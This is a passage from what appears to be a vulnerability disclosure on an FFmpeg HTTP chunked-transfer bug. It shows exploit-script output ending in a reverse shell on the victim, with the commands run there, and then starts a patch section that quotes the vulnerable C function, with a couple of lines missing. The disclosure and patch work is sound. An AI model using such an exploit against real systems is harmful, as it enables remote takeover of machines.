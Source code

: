Back at the exploit script terminal, we can see that the connection has been
established, payload has been delivered, and the reverse shell has been started.

```shell
[+] Victim found!
[*] Bug triggered. Please wait for two seconds...
[*] Payload sent!
[*] Closed connection to 127.0.0.1 port 59164
[*] Please wait for your reverse shell.
[+] Success! Enjoy your shell!
[*] Switching to interactive mode
$ uname -a
Linux ubuntu-xenial 4.4.0-93-generic #116-Ubuntu SMP Fri Aug 11 21:17:51 UTC
2017 x86_64 x86_64 x86_64 GNU/Linux
$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),
24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),
109(netdev),110(lxd)
$ echo pwned!
pwned!
$
```

An asciinema demo may be found at this link:
[https://asciinema.org/a/6tSnpYAqdUqsvtLhFb7iwxIRT](https://asciinema.org/a/6tSnpYAqdUqsvtLhFb7iwxIRT).

# Part 3: The Patch

## The Simple Patch

This report suggests a simple two-liner solution. The `http_read_stream`
function contains the original code:


```c
1250     if (s->chunksize >= 0) {
1251         if (!s->chunksize) {
1252             char line[32];
1253
1254                 do {
1255                     if ((err = http_get_line(s, line, sizeof(line))) < 0)
1256                         return err;
1257                 } while (!*line);    /* skip CR LF from last chunk */
1258
1259                 s->chunksize = strtoll(line, NULL, 16);
1260

1263
1264                 if (!s->chunksize)
1265                     return 0;
1266         }
1267         size = FFMIN(size, s->chunksize);
1268     }
```
